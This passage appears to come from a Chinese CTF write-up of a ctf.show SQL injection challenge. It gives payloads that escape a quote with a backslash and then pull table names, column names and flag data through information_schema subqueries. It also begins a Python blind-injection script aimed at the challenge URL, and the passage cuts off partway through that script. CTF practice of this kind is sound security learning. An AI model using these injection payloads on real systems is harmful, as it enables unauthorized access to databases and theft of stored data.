 ![image-20250217182218885](../assets/image-20250217182218885.png)

payload

```
#获取表名
password=\&username=,username=(select group_concat(table_name) from information_schema.tables where table_schema=database())%23

#获取列名
password=\&username=,username=(select group_concat(column_name) from information_schema.columns where table_schema=database())%23

#获取数据
password=\&username=,username=(select group_concat(flagass233) from flag233333)
```



##### 方法二 ：盲注

```python
"""
Author:Y4tacker
"""
import requests

url = "http://4f5b7639-6d01-45c4-9610-e11239ba8c90.chall.ctf.show/api/?page=1&limit=10"

result = ""
i = 0

while 1:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) >> 1
        # 查数据库
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
```